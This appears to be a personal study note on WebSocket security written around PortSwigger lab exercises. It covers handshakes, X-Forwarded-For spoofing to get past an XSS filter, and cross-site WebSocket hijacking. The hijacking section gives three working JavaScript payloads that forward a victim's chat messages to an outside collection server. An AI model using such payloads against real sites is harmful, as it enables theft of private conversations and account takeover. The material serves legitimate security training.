









#websocket #http #javascript
- What are WebSockets? - [Portswigger](https://portswigger.net/web-security/websockets/what-are-websockets)
- Testing Websockets - [Portswigger](https://portswigger.net/web-security/websockets#websockets-security-vulnerabilities)
- WebSocket Attacks - [Hacktricks](https://book.hacktricks.wiki/en/pentesting-web/websocket-attacks.html#simple-attack)

**WebSockets:** a communication protocol designed for continual, long-lived bidirectional data streams (like a live chat application, or real-time feeds/financial data) established via an initial `HTTP` request.

Messages can be sent in either direction, at any time, and are not always transactional (like `HTTP`'s strict "request-response" model). The connection stays open until either side (server or client) is ready to send a message.

## Establishing a WebSocket
#javascript
Connections are created with **client-side javascript**, like:
``` js
// Establish websocket
var ws = new WebSocket("wss://normal-website.com/chat");

// Sending content:
ws.send("Hello Mother");
```

A connection is established via an initial HTTP request with a **websocket key** & an **upgrade** directive:
``` http
GET /chat HTTP/1.1 
Host: normal-website.com 
Sec-WebSocket-Version: 13 
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w== 
Connection: keep-alive, Upgrade 
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2 
Upgrade: websocket
```
... and the corresponding response (`Connection` & `Upgrade` headers in particular) indicate a Websocket handshake has been established:
``` http
HTTP/1.1 101 Switching Protocols
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: 0FFP+2nmNIf/h+4BP36k9uzrYGk=
```
- `Sec-WebSocket-Key`: contains Base64-encoded random value, unique for each handshake request. 
- `Sec-WebSocket-Accept`: hashed value of `Sec-WebSocket-Key` + a specific string defined in the protocol specification. *This is done to prevent misleading responses resulting from misconfigured servers or caching proxies*

### Websocket message contents
#json
Can contain **any content or data format**, but is typically `JSON`. E.g. 
``` json
{"user":"Hal Pline","content":"I wanted to be a Playstation growing up, not a device to answer your inane questions"}
```

---

## Manipulating WebSockets
Can modify in-band with Intercept, resend individual messages in Repeater, or **manipulate Websocket Handshakes:**
### WebSocket Handshakes
May occasionally want to manipulate handshakes, aka the initial HTTP request that is followed by `HTTP/1.1 101 Switching Protocols` (e.g. to refresh/reissue stale tokens/connection streams, reach a wider attack surface etc.)
- In Burp Repeater: Use **pencil icon** next to the WebSocket URL --> wizard to **attach to an existing connected WebSocket**, **clone a connected WebSocket**, or **reconnect to a disconnected WebSocket**.

## WebSocket Vulnerabilities:
**Practically any web security vulnerability** might arise in relation to WebSockets, e.g.:
- **Unsafe processing of user-supplied input** ( #SQLi, #XSS, #XXE injection).
- Blind vulnerabilities (use [out-of-band (OAST) techniques](https://portswigger.net/blog/oast-out-of-band-application-security-testing)).
- If attacker-controlled data is transmitted via WebSockets to other application users --> all client-side vulnerabilities.
Are largely all exploited by **tampering with the contents of WebSocket messages.**
#### Lab: Simple XSS via WebSockets:
Intercept in-band & modify to circumvent client-side encoding:


### Manipulating WebSocket handshakes to exploit vulnerabilities
Vulnerabilities tend to arise when:
- **Misplaced trust in HTTP headers to perform security decisions** - such as `X-Forwarded-For`
- Session handling mechanism flaws - as the **initial WS handshake determines the session context for all following WS messages**
- **Custom HTTP Headers** used by the application increasing the attack surface.
#### [Lab](https://portswigger.net/web-security/websockets/lab-manipulating-handshake-to-exploit-vulnerabilities): Manipulating the WebSocket handshake to exploit vulnerabilities 
After attempting an XSS attack with ``, our attack is "detected" and the address blacklisted. 

Using the initial WS connection, can try and spoof own IP using 'X-Forwarded-For' header.
To do so, send the failed WS message to repeater, and **Reconnect** to establish a session with a **modified `X-Forwarded-For: 2.2.2.3`** header. This will initiate a new WS connection, and handle key exchanges to validate it, etc.

After trying a few payloads, we find out we can bypass it by capitalising every second letter.


---
### Cross-site WebSocket hijacking - `CSRF` on WS Handshakes
Can attempt to perform a `CSRF` attack on a WebSocket handshake connection by **making a cross-domain WebSocket connection from a web site that the attacker controls**. Arises when a **WebSocket handshake request relies solely on `HTTP` cookies for session handling**, and doesn't have any CSRF tokens/unpredictable values.

#### Process:
1. Determine whether WS handshakes are **protected against CSRF**, i.e.:
	1. **Relies solely on HTTP cookies** for **session handling**
	2. **Doesn't employ any tokens** or other **unpredictable values**
 ***Note:** `Sec-WebSocket-Key` has a random value to prevent caching proxy errors, not used for authentication/sessions*
2. Attacker creates a malicious web page that **establishes a cross-site WS connection** to the vulnerable app
3. The app **handles the connection in the context of the victim user's session** with the application
4. The attacker's page then can **send/receive arbitrary messages to the server**, gaining **two-way interaction.**

If the app uses client WS messages to **(1) perform any sensitive state-changing actions**, or **(2) access any sensitive data**, the attacker can **impersonate/intercept these messages**, or just **wait for incoming messages to arrive**.

#### [Lab](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab): Cross-site WebSocket hijacking
#websocket #websocket-csrf
**Goal**: Host an **HTML/JavaScript payload** that **uses a cross-site WebSocket hijacking attack** to **exfiltrate the victim's chat history**, then use this **gain access to their account**. 

- Chat uses WS, and the initial handshake doesn't seem to employ any CSRF tokens/random values for session handling

When connecting to the chat, and conversing a bit, we can **retrive the chat history** - which uses the `session` cookie, as well as the `READY` WS message.


We can try and read the victim's chat logs by hosting a page that initiates this `READY` connection, and then sends each WS message received as a result to a collaborator server (as need to see the BODY content, i.e. `JSON` messages).
**Note: check how the website implements this feature and REUSE THEIR CODE WHERE POSSIBLE!**
``` js
<script>
    var ws = new WebSocket('wss://0af2006e03d6d256804c498f002f00f2.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://exploit-0a4f003603a6d295809f48b701a20007.exploit-server.net', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```


When delivering it to the victim, their chat history will be sent as a series of HTTP requests to our collaborator server:


###### Alternative: - using snippets from website chat code
``` js
<script>

var webSocket = new WebSocket("wss://0a7900880431b07c800d03c800e8007b.web-security-academy.net/chat");

webSocket.onopen = function (evt) {
	webSocket.send("READY");
}

webSocket.onmessage = function (evt) {
	var message = evt.data;
	
	fetch ("https://gk4o42le2q00niajzksdv73uklqce42t.oastify.com", {
	method: "POST",
	body: message,
	mode: "no-cors"
	})
}
</script>
```
###### The below code also works, but is a lot more code (developed from [MDN](https://developer.mozilla.org/en-US/docs/Web/API/WebSockets_API/Writing_WebSocket_client_applications) plus some claude tweaking):
``` js
<script>
let counter = 0;
let pingInterval;

function log(msg) {
  document.getElementById("log").innerHTML += msg + "<br>";
  console.log(msg);
}

const wsUri = "wss://0acf00a104837aca80961ccd0033009c.web-security-academy.net/chat";
const websocket = new WebSocket(wsUri);

websocket.addEventListener("open", () => {
  log("CONNECTED");
  websocket.send("READY");
  pingInterval = setInterval(() => {
    log(`SENT: ping: ${counter}`);
    websocket.send("PING");
  }, 1000);
});

websocket.addEventListener("error", () => log("ERROR"));

websocket.addEventListener("message", (e) => {
  log(`RECEIVED: ${e.data}`); // log raw data first
  try {
    const message = JSON.parse(e.data);
    log(`PARSED: ${JSON.stringify(message)}`);
    counter++;
  } catch {
    log(`(not JSON)`);
  }
});

websocket.addEventListener("message", (e) => {
  log(`RECEIVED: ${e.data}`);
  fetch('https://your-server.net', {
    method: 'POST',
    mode: 'no-cors',
    body: e.data // raw message data only
  });
});

websocket.addEventListener("close", () => {
  log("DISCONNECTED");
  clearInterval(pingInterval);
});
</script>

<div id="log" style="font-family: monospace; white-space: pre;"></div>

```

& deliver exploit to victim, we want them, when visiting the page, to:
- Initiate a new WS connection (send above HTTP request with their session cookies)
- Leak session token to then be used 


---
## More Resources:
- [https://christian-schneider.net/CrossSiteWebSocketHijacking.html](https://christian-schneider.net/CrossSiteWebSocketHijacking.html) - Christian Shneider
- [Hacktricks websocket attacks](https://hacktricks.wiki/en/pentesting-web/websocket-attacks.html)